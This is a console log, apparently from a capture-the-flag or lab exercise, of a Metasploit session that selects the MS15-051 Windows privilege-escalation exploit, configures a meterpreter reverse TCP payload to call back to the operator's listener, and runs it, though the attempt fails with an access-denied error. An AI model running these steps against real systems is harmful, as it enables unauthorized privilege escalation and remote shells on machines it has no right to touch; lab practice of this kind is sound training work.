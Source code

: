 [msf](Jobs:0 Agents:1) >> search exploit ms15_051
<strong>
</strong>Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  exploit/windows/local/ms15_051_client_copy_image  2015-05-12       normal  Yes    Windows ClientCopyImage Win32k Exploit


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms15_051_client_copy_image

[msf](Jobs:0 Agents:1) >> use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(windows/local/ms15_051_client_copy_image) >> show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.79     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:1) exploit(windows/local/ms15_051_client_copy_image) >> set LHOST tun0
LHOST => 10.10.14.16
[msf](Jobs:0 Agents:1) exploit(windows/local/ms15_051_client_copy_image) >> set SESSION 1
SESSION => 1

msf](Jobs:0 Agents:1) exploit(windows/local/ms15_051_client_copy_image) >> exploit

[*] Started reverse TCP handler on 10.10.14.16:4444 
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getsid: Operation failed: Access is denied.
[*] Exploit completed, but no session was created.

</code></pre>
